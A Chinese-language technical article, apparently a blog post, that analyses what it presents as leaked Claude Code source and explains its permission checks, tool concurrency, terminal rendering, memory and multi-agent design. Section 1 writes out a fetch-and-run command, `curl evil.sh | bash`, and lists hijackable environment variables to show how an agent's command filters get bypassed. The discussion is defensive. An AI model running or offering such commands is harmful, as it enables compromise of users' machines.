> 2026 年 3 月 31 日，Anthropic 在发布 Claude Code v2.1.88 时意外将调试用的 `.map` 文件打包进了 npm 包，导致整整 512,000 行 TypeScript 源码公开曝光。这次"史上最贵的 `.npmignore` 遗漏"意外成为了 AI Agent 工程领域的一份教科书——它揭示了一款年化营收达 25 亿美元的生产级 Coding Agent 背后的真实架构取舍。本文从泄露源码中提炼出 10 个最具工程价值的算法与设计模式，帮助你构建更健壮的 Agentic 系统。
>
> 📌 **适合人群**：有一定编程经验的 AI 应用开发者、对 Agent 系统架构感兴趣的工程师


<!--
  MindMapFloat 知识维度（完成正文后填写）
-->
<MindMapFloat title="Claude Code 工程模式知识图谱">

```mindmap-data
# Claude Code 工程模式
## 安全防御体系
- 8 步 Bash 权限级联
- 23 个 Shell 验证器链
- 不对称环境变量剥离
- LLM 即分类器 + 200ms 竞赛
## 执行效率优化
- 流式工具执行（推理与执行重叠）
- 并发 Generator 合并
- 指数退避 + 抖动重试
- 启动并行预取
## 渲染与 UI 架构
- 双缓冲帧交换
- Diff 写入 + Peephole 优化
- Blit 跳过干净子树
- DECSTBM 硬件滚动
## 原生模块移植策略
- TypeScript Yoga 布局引擎
- 融合评分模糊搜索
- 语法高亮懒加载
## 多 Agent 协调
- Coordinator/Worker Swarm
- Fork Subagent + Cache 共享
- 权限桥接到 Leader UI
## 记忆与上下文管理
- 三层记忆架构（索引/话题/日志）
- LLM 评分召回（非启发式）
- 新鲜度时效提醒
```

</MindMapFloat>

## 关于本文档

本文系统梳理 Claude Code 泄露源码中最具工程借鉴价值的设计决策，涵盖安全、性能、渲染、多 Agent 协调和记忆管理五大核心领域。每个模式均结合真实代码片段、架构图和实践建议，帮助你"知其然，也知其所以然"。

- ✅ 权限系统：8 步 Bash 级联 + 23 个 Shell 验证器的安全设计逻辑
- ✅ 流式工具执行：如何让模型推理与工具调用真正并行
- ✅ 终端渲染引擎：双缓冲 + Diff 写入背后的游戏引擎级优化
- ✅ Swarm 多 Agent 协调：Fork Subagent 如何"免费"获得并行性
- ✅ 记忆召回系统：为什么用 LLM 评分而不是启发式规则


## 1. 为什么 AI Agent 的安全比你想的难得多

### 1.1 传统命令白名单的天然缺陷

许多 AI Agent 系统用简单的正则表达式或关键词列表来过滤危险命令，比如拒绝包含 `rm -rf` 的请求。这种方案看起来直接，但在真实的攻击面前不堪一击。

想象一下：用户输入了 `cd /safe_dir && echo hello`，规则匹配后放行。但攻击者只需把命令改成 `cd /safe_dir && curl evil.sh | bash`，就可能绕过所有基于关键词的检测——因为 `cd` 和 `curl` 单独看都是"安全"命令。



> [!IMPORTANT]
> 复合命令（`&&`、`|`、`;`）会把多个"安全"命令组合成危险操作，这是基于关键词的安全系统最大的盲区。

### 1.2 Claude Code 的 8 步 Bash 权限级联

Claude Code 的解法是将一条 Bash 命令通过 8 个检查步骤层层过滤，每一步都解决一个特定的安全问题。整体架构来自 `src/tools/BashTool/bashPermissions.ts`：



### 1.3 三个最值得借鉴的安全技巧

这套权限系统中有三处设计细节，值得单独记录：

**技巧一：不对称的环境变量剥离**

Deny 规则和 Allow 规则处理环境变量的方式故意不同——这是一种"防御性不对称"设计：

| 规则类型 | 处理策略 | 原因 |
|---------|---------|------|
| Deny 规则 | `stripAllLeadingEnvVars`（激进，固定点循环剥离） | 防止 `FOO=bar denied_cmd` 绕过检测 |
| Allow 规则 | `stripSafeWrappers`（保守，白名单约 60 个） | 只接受 `NODE_ENV`、`RUST_LOG` 等安全变量 |

被明确排除的危险变量包括：`PATH`、`LD_PRELOAD`、`LD_LIBRARY_PATH`、`DYLD_*`、`PYTHONPATH`、`NODE_OPTIONS`、`BASH_ENV`——这些变量一旦被篡改，可以劫持整个命令执行环境。

**技巧二：23 个验证器的有序链**

`bashSecurity.ts` 中有 23 个按安全优先级排序的验证器，几个典型例子：

| 验证器 | 检测内容 | 防御场景 |
|-------|---------|---------|
| `validateObfuscatedFlags` | 引号内隐藏的 `-rf` 等标志 | 规避 flag 检测 |
| `validateIFSInjection` | `IFS=` 赋值 | 劫持 shell 分词 |
| `validateUnicodeWhitespace` | 非 ASCII 空白字符 | 视觉欺骗绕过 |
| `validateDangerousVariables` | `BASH_ENV`, `PROMPT_COMMAND` 等 | 环境劫持 |
| `validateCarriageReturn` | CR 字符 | shell-quote/bash 分词差异利用 |

**关键排序逻辑**：非误解析验证器的 `ask` 结果会被暂存，等待所有误解析验证器运行完毕。这样可以防止"表面敏感"的命令掩盖更严重的解析漏洞。


**技巧三：200ms 竞赛模式（Auto-Mode 分类器）**

当系统需要自动批准一个命令时，会同时启动 5 个"选手"：

```
5 个并发参赛者（createResolveOnce 原子 claim — 第一个到达的赢）：
  1. 用户权限对话框
  2. Hooks 异步执行
  3. Bash 分类器（两阶段 XML：快速判定 → 深度推理）
  4. Bridge 权限响应（claude.ai）
  5. Channel 权限中继（Telegram 等）

200ms 宽限期：
  前 200ms 内忽略用户交互（防止误触取消分类器）
  200ms 后任何用户交互都会终止分类器的自动批准机会
```

> [!TIP]
> **借鉴点**：分类器的两阶段设计（`max_tokens=64` 快速判定 + `max_tokens=4096` 深度推理）是成本与准确性的绝佳平衡。大多数"无害"命令在第一阶段就被放行，昂贵的 chain-of-thought 只对疑似危险命令触发。


## 2. 流式工具执行：让推理与执行真正重叠

### 2.1 问题：串行等待的时间浪费

传统 Agent 系统通常按顺序工作：等模型生成完整响应 → 解析 tool_call → 执行工具 → 返回结果 → 下一轮推理。这意味着在模型"思考"期间，工具执行能力完全闲置。

```mermaid
gantt
    title 传统串行执行 vs Claude Code 流式重叠
    dateFormat X
    axisFormat %Lms

    section 传统串行
    模型推理            :0, 3
    工具执行 A          :3, 5
    工具执行 B          :5, 7
    模型推理（下一轮）   :7, 10

    section Claude Code 流式
    模型推理（持续流式）  :0, 4
    工具执行 A（推理中触发）:1, 3
    工具执行 B（推理中触发）:2, 4
    模型推理（下一轮）   :4, 7
```

### 2.2 并发控制算法

`StreamingToolExecutor.ts` 的核心算法只有 8 行，但蕴含了精妙的并发安全逻辑：

```typescript
// 来自 src/services/tools/StreamingToolExecutor.ts
canExecuteTool(isConcurrencySafe: boolean): boolean {
  const executing = this.tools.filter(t => t.status === 'executing')
  return (
    executing.length === 0 ||                              // 没有正在执行的工具 → 直接执行
    (isConcurrencySafe &&                                  // 自身声明并发安全
      executing.every(t => t.isConcurrencySafe))           // 且所有在执行的也安全
  )
}
```

工具的并发安全分类是"fail-closed"设计——默认不安全，必须主动声明：

| 并发安全分类 | 工具示例 | 判定依据 |
|------------|---------|---------|
| 始终安全 | FileRead, LSP, TaskCreate | 返回 `true`（只读，无副作用） |
| 输入依赖 | BashTool | 委托给 `isReadOnly(input)`，只读命令并发，写命令独占 |
| 默认不安全 | FileEdit, FileWrite | 使用默认 `false`（fail-closed） |

### 2.3 工具状态机与错误级联

工具经历 4 个状态：`queued → executing → completed → yielded`

**关键设计决策**：只有 Bash 错误才取消"兄弟工具"。原因是 Bash 命令有隐式依赖链（`mkdir` 失败后，后续 `cd` 没有意义）。而 `FileRead`、`WebFetch` 等独立工具不级联取消——一个读取失败不应该影响其他独立的读取。

`siblingAbortController` 是 parent 的子控制器：兄弟子进程立即死亡，但父 query loop 不中断，保持整体会话的连续性。

> [!NOTE]
> **与 arXiv 论文的呼应**：[Optimizing Agentic Language Model Inference via Speculative Tool Calls](https://arxiv.org/abs/2512.15834)（arXiv:2512.15834）独立提出了类似的"推测性工具调用"思路，在学术层面验证了这一优化方向的价值。Claude Code 的实现更进一步，将状态机管理和错误级联都做进了生产级细节。


## 3. 并发控制与重试策略：经得起压力的韧性设计

### 3.1 并发 Generator 合并算法

`src/utils/generators.ts` 中的 `all` 函数解决了一个经典问题：如何公平地合并多个异步数据流，同时保持有界并发？

```
算法步骤（默认上限 10 个并发）：
1. 初始填充 concurrencyCap 个 generator 进入 active 集合
2. Promise.race 所有活跃 generator
3. 某个 generator yield → 立即调用 .next() 继续推进它
4. 某个 generator 完成 → 从 waiting 队列中取一个补入
5. 公平交错输出，有界并行，背压自然传导
```

这与游戏引擎中的"任务池"模式非常相似——始终保持固定数量的工作单元运行，完成一个就补充一个，既不饥饿也不溢出。

### 3.2 指数退避 + 加性抖动

```
baseDelay = min(500ms × 2^(attempt-1), 32s)
jitter    = random(0, 25% × baseDelay)   // 加性抖动，非乘性
finalDelay = baseDelay + jitter
// 如果服务端返回 retry-after header，优先使用 header 值
```

> [!NOTE]
> 加性抖动（而非乘性）是一个细节：乘性抖动会让最大退避时间变得不可预测，加性抖动在保持随机性的同时，维持了可预期的上界。

**529（过载）的三层应对策略**：

| 场景 | 策略 | 原因 |
|-----|------|------|
| 非前台查询（摘要、标题、分类器） | 收到 529 立即放弃 | 避免级联放大，保护前台请求 |
| 前台查询 | 重试最多 3 次 | 用户体验优先 |
| 3 次 529 后 | `FallbackTriggeredError` → 切换备用模型 | 降级而非崩溃 |



### 3.3 流式看门狗

```
空闲超时默认 90s（可通过环境变量配置）：
  50% 时间 → 打印警告日志
  100% 时间 → 硬中止挂起的流（防止幽灵连接占用资源）
  每个 chunk 到达时重置计时器
```

> [!WARNING]
> 在生产 Agent 系统中，"挂起的流"是一个容易被忽视的资源泄漏来源。没有看门狗的系统在网络波动后容易出现大量僵尸连接，导致线程池耗尽。


## 4. 终端渲染引擎：游戏引擎级的双缓冲优化

### 4.1 为什么终端渲染需要"游戏引擎"思维

Claude Code 的终端 UI 使用 React + Ink 构建，这意味着每次状态更新都可能触发重新渲染。在普通的 Ink 实现中，每次渲染都会擦除所有行再重写——这会导致明显的闪烁，尤其在 tmux 等不原生支持双缓冲的终端中。



### 4.2 双缓冲帧交换

每次渲染后的帧交换只需两行：

```typescript
// 来自 src/ink/ink.tsx
backFrame = frontFrame   // 旧帧成为"比较基准"
frontFrame = newFrame    // 新帧成为"当前内容"
```

**Screen 缓冲区的底层设计**：使用 packed `Int32Array`，每个单元格占 2 个 word（8 bytes）：

| Word | 内容 |
|------|------|
| Word 0 | char pool ID（字符池引用） |
| Word 1 | style ID + hyperlink ID + cell width（位打包） |

`resetScreen()` 复用同一块 buffer（只增不缩），通过 `BigInt64Array` 视图批量清零——这是典型的"内存池"思路，避免频繁的 GC 压力。

### 4.3 Diff 算法与 Peephole 优化

**Diff 步骤**：

```
1. 计算两帧 damage rectangle 的并集（只在变化区域工作）
2. 仅在 damage 区域内逐 word 比较 Int32Array
3. findNextDiff() 是纯函数，设计为 JIT 内联热点
4. VirtualScreen 跟踪光标位置，只在目标不一致时发移动指令
```

**Blit 优化**（跳过干净子树）：

```
节点干净（not dirty）且布局位置不变
  → 直接从 prevScreen 复制单元格（blit）
  → blitRegion() 使用 TypedArray.set() 批量内存拷贝
  → 每行一次调用，连续全宽区域只需一次
  → 跳过整个子树的重新渲染（相当于 React.memo 但在像素层面）
```

**Peephole 优化**（`src/ink/optimizer.ts`）：对 Diff 操作数组做单趟扫描，合并相邻的冗余操作：

| 合并类型 | 效果 |
|---------|------|
| 连续 `cursorMove` | 加 dx/dy，减少光标移动指令数量 |
| 连续 `cursorTo` | 只保留最后一个 |
| 相邻 `styleStr` | 拼接成一次输出 |
| cursor hide/show 对 | 取消互相抵消的对 |
| 重复 URI 的 hyperlink patch | 去重 |

> [!TIP]
> **DECSTBM 硬件滚动**是最精妙的优化之一：当内容需要滚动时，Claude Code 通过终端转义序列 `CSI top;bot r + CSI n S/T` 触发终端硬件滚动，而不是重写整个区域。系统先对 `prev.screen` 执行 `shiftRows()` 模拟硬件位移，后续 Diff 自然只找到新滚入的行——这和游戏引擎的"脏区域"标记如出一辙。


## 5. 纯 TypeScript 原生模块移植：消除 native binary 依赖

### 5.1 为什么要移植 C++/Rust 模块？

依赖 native binary 的 npm 包有一个顽固的问题：不同平台（arm64/x64/linux/mac/win）需要不同的预编译版本，安装时间长、偶尔失败，跨平台部署是噩梦。Claude Code 的解法是用纯 TypeScript 重新实现关键的 native 模块。



### 5.2 TypeScript Yoga 布局引擎（~2400 行）

Yoga 是 Meta 开发的 Flexbox 布局引擎，原版是 C++。Claude Code 移植了完整的 Flexbox 实现，并加入了多层缓存策略：

| 缓存层 | 机制 | 效果 |
|-------|------|------|
| Dirty-flag | 干净子树 + 匹配输入 → 跳过布局计算 | 基础剪枝，大多数渲染的快路径 |
| 双槽缓存 | 分别缓存 layout 和 measure 结果 | 同一节点的两种调用模式各自命中 |
| Dirty 传播 | 节点变更时向上传播 dirty 标记 | 精确定位需要重新布局的子树范围 |

### 5.3 模糊搜索：融合 indexOf + Gap-bound 剪枝（4 步算法）

Claude Code 的文件模糊搜索（对标 fzf/nucleo）是一个相当精妙的算法实现：

```
Step 1: 大小写折叠
  全小写查询 → 大小写不敏感搜索
  含大写字符 → 严格大小写敏感搜索

Step 2: 融合 indexOf 扫描（关键创新）
  String.indexOf()（V8/JSC 中 SIMD 加速）
  同时找到匹配位置 + 累积 gap/consecutive 分数
  无需第二次独立的评分遍历（节省一遍 O(n) 扫描）

Step 3: Gap-bound 剪枝（早期退出）
  计算分数上限（所有边界奖励）减去已知 gap 惩罚
  若无法超过当前 top-k 阈值 → 跳过后续昂贵的边界评分

Step 4: 边界/驼峰评分
  路径分隔符 (/\-_.) 匹配奖励
  驼峰转换匹配奖励（"gC" 匹配 "getColor"）
  首字符匹配奖励
  近似 nucleo/fzf-v2 权重系数
```

Top-k 维护：升序数组 + 二分插入，避免全量 `O(n log n)` 排序。额外细节：路径包含 "test" 的文件会获得 1.05x 分数惩罚（让源文件排在测试文件前面）。

> [!NOTE]
> 参考论文：[Efficient LLM Serving for Agentic Workflows: A Data Systems Perspective](https://arxiv.org/abs/2603.16104)（arXiv:2603.16104）讨论了在 Agent 工作流中优化数据检索的重要性。Claude Code 的模糊搜索实现是这类优化思路在工具层的具体体现。


## 6. FileEditTool：12 步验证链与 TOCTOU 防护

### 6.1 为什么文件编辑需要 12 步验证？

"帮我修改这个文件"看起来是最简单的 AI Agent 功能，但生产环境中有大量边界情况可能导致数据损坏、安全漏洞或静默失败。Claude Code 的 `FileEditTool` 用一个 12 步验证链覆盖了几乎所有已知的陷阱：



### 6.2 TOCTOU 竞态防护

Time-of-Check-Time-of-Use（TOCTOU）是文件操作中的经典安全漏洞：先检查文件状态，然后再使用，这中间可能有人修改了文件。Claude Code 的解法是**双重陈旧性检查**：

```
validateInput 阶段：第一次 mtime 检查
  → 通过
    ↓
call() 写入阶段：重新同步读取文件，第二次 mtime 检查
  → 通过则执行写入
  → 防止 validate 和 call 之间的竞态条件
```

> [!IMPORTANT]
> **陈旧性检测的容错设计**：`mtime` 比较失败时，系统会回退到**内容比较**（逐字节对比）。原因是云同步工具（Dropbox、OneDrive）和杀毒软件经常在不修改内容的情况下改变文件的时间戳，纯 mtime 检测会产生大量误报。

### 6.3 引号规范化算法

模型生成的文本可能把 `"` 变成 `""`（弯引号），导致文件搜索失败。Claude Code 的解法是一个 4 步规范化算法：

```
搜索阶段：
  1. 精确匹配 old_string → 找到则直接使用
  2. normalizeQuotes(old_string) → 弯引号转直引号
  3. 在 normalizeQuotes(fileContent) 中搜索
  4. 返回 fileContent 中的原始子串（保留弯引号）

写入阶段（preserveQuoteStyle）：
  检测到规范化被应用时：
  → 将 new_string 中的直引号转回弯引号
  → 启发式：空白/行首/开括号后 = 开引号；字母间 = 撇号
```


## 7. 记忆系统：三层架构与 LLM 评分召回

### 7.1 三层记忆架构

大多数 Agent 记忆实现要么把所有历史都塞进上下文（贵且有噪声），要么用向量数据库做语义检索（复杂且依赖外部服务）。Claude Code 的解法是一个轻量的三层文件系统架构：



> [!IMPORTANT]
> **核心设计洞察**：大多数 Agent 记忆实现把所有内容每轮都加载进上下文，既昂贵又引入噪声。Claude Code 把上下文窗口视为稀缺资源：索引轻且始终存在，话题文件只在相关时读取，日志从不直接加载。**"不存储什么"和"存储什么"一样重要。**

### 7.2 记忆提取：Fork 子 Agent

每个完整 query loop 结束后，系统会 fork 一个子 Agent（共享父级 prompt cache）来执行记忆提取，有 8 步守卫机制防止浪费：

```
1. 门控：仅主 Agent，非子 Agent，非远程模式运行
2. 重叠守卫：已有提取在运行 → 暂存当前上下文（最新覆盖旧的）
3. 轮次节流：合格轮次未达阈值 → 跳过
4. 互斥：主 Agent 已手动写入记忆 → 跳过并推进游标
5. 注入记忆清单：扫描目录 + 读 frontmatter → 预格式化
6. Fork Agent 执行：最多 5 轮，受限工具访问（只能读写记忆目录）
7. 游标推进：仅在成功后；失败时留在原位以重新考虑
8. 尾随运行：完成后检查暂存的待处理上下文
```

### 7.3 记忆召回：LLM 评分而非启发式

`findRelevantMemories` 的最大亮点是用 LLM 做相关性评分，而不是基于关键词或向量距离：

```
Phase 1: 扫描（高效文件系统操作）
  → 读取记忆目录所有 .md 文件（排除 MEMORY.md）
  → 每个文件只读前 30 行提取 frontmatter（name, description, type）
  → 按 mtime 降序排列，上限 200 个文件
  → 单遍设计：读取后排序（而非 stat-排序-读取），syscall 减半

Phase 2: LLM 选择（Sonnet 模型评分）
  → 发送查询 + 格式化清单 + 最近使用工具列表
  → 结构化 JSON 输出
  → 系统提示："只包含你确定有帮助的记忆。不确定就不包含。最多 5 个。"
  → 最近工具列表防止为已活跃使用的工具推荐 API 文档（实用细节）

Phase 3: 新鲜度处理
  → 超过 1 天的记忆注入 <system-reminder> 告警
  → 提示模型该记忆可能已过时，谨慎使用
```

| 对比维度 | 向量检索 | 关键词检索 | Claude Code LLM 评分 |
|---------|---------|----------|-------------------|
| 理解查询意图 | ⭐⭐⭐ | ⭐ | ⭐⭐⭐⭐⭐ |
| 考虑当前上下文 | ❌ | ❌ | ✅（注入最近工具列表）|
| 基础设施依赖 | 向量数据库 | 无 | 仅 LLM API |
| 延迟 | 低 | 极低 | 中（一次额外 LLM 调用）|


## 8. Swarm 多 Agent 协调：并行几乎"免费"的秘密

### 8.1 Coordinator/Worker 架构

Claude Code 的多 Agent 系统遵循清晰的阶段化工作流：



并发规则简洁实用：只读任务自由并行；写密集任务按文件区域串行；验证可与操作不同文件的实现重叠。

### 8.2 两种后端隔离策略

| 后端 | 隔离方式 | 通信 | 特点 |
|-----|---------|------|------|
| In-Process | `AsyncLocalStorage` 上下文隔离 | 基于文件的 mailbox | 共享 API client + MCP 连接；独立 AbortController |
| Pane-Based (tmux/iTerm2) | 独立 OS 进程 | 基于文件的 mailbox | 完整进程隔离，CLI flag 传播 |

> [!NOTE]
> In-process 设计的关键：Leader 中断（AbortController）不会杀死 Worker。这意味着用户取消主任务时，正在进行文件写入的 Worker 可以安全完成，避免产生半写入的损坏文件。

### 8.3 Fork Subagent 的 Prompt Cache 共享秘密

Fork Subagent 是 Claude Code 多 Agent 并行"几乎免费"的关键所在：

```
子进程继承父级完整对话上下文 + system prompt

Cache 共享设计（最大化 prompt cache 命中率）：
  保留完整父级 assistant 消息（所有 tool_use 块）
  构建 tool_result 块（占位文本："Fork started -- processing in background"）
  只有最后的 text 块不同 → 所有子进程共享相同 token 前缀 → cache 命中

递归 fork 防护：
  isInForkChild() 检查对话历史中的 <fork_boilerplate> 标签
  防止子 Agent 意外再 fork 出孙子 Agent
```



> [!TIP]
> 这就是为什么 Claude Code 的并行"几乎免费"：多个子进程共享相同的 prompt cache 前缀，只有任务描述不同，缓存命中率极高，边际 token 成本接近零。


## 9. Prompt Cache 稳定性：14 个防止缓存失效的设计

Prompt Cache 的经济价值极高（Claude API 缓存 token 约为普通 token 的 1/10 成本），但缓存极其脆弱——任何细微的前缀变化都会失效。Claude Code 在整个代码库中系统性地维护缓存稳定性：

| 技术 | 位置 | 效果 |
|-----|------|------|
| 工具池排序 | `assembleToolPool()` | 防止 MCP 工具变更破坏缓存前缀 |
| 系统 prompt 分界标记 | `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` | 静态部分 `scope: global` 跨组织缓存 |
| Agent 列表附件注入 | AgentTool prompt.ts | 从工具描述中移出动态列表（减少约 10.2% 的 cache_creation） |
| Fork 消息构造 | forkSubagent.ts | 所有子进程共享相同 tool_result 占位符，仅最后文本块不同 |
| Tool result 替换一致性 | toolResultStorage.ts | `mustReapply` 复用完全相同的替换字符串（字节级一致） |
| frozen 分区 | toolResultStorage.ts | 进入 cache 的内容永不修改 |



> [!IMPORTANT]
> **系统 prompt 分界标记**是一个可以立即借鉴的实践：在你的 Agent 系统中，把永不变化的基础指令（角色定义、工具使用规范）放在固定的前缀位置，把动态内容（当前日期、用户偏好）放在分界线之后。这一个改变就可以将缓存命中率从接近 0 提升到 60-80%。


## 10. 其他精巧设计：35 行状态管理与启动并行预取

### 10.1 35 行状态管理：零依赖的极简实现

